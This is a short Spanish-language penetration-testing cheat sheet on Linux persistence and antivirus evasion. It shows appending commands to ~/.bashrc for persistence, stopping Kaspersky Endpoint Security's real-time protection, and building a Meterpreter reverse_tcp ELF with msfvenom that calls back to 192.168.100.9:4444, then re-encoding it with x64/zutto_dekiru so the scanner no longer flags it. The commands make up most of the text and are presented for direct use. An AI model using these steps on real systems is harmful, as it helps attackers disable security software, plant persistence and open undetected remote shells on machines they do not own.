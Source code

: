 ### Archivos de condiguracion de usuario
```
echo "touch /tmp/bashtest.txt" >> ~/.bashrc
ls -al /tmp/bashtest.txt
/bin/bash
ls -al /tmp/bashtest.txt
```
 
#### Puerta trasera simple de configuración de VIM
```
:echo "this is a test"
```
 
### Bypassing AV
#### Kaspersky EndPoint Security
Deshabilitar protección en tiempo real
```
sudo kesl-control --stop-t 1
```

Escaneo de archivo `eirca.txt`

```
sudo kesl-control --scan-file ./eicar.txt
sudo kesl-control -E --query | grep DetectName
```

Si ejecutamos un escaneo con Kaspersky en nuestro archivo met.elf como hicimos con nuestro archivo de prueba EICAR, el archivo es detectado como malware.
```bash
> msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf > met.elf
> sudo kesl-control --scan-file met.elf
> sudo kesl-control -E --query | grep DetectName
DetectName=HEUR:Backdoor.Linux.Agent.ar
```

Encoder `x64/zutto_dekiru` no detectado por AV
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf  -e x64/zutto_dekiru > met64zutto.elf
sudo kesl-control --scan-file met64zutto.elf 
```

Restaurar proteccion en tiempo real (cuando accedemos o ejecutamos un archivo, Kaspersky escanearlo automáticamente en busca de virus.)
```
sudo kesl-control --start-t 1
```

 
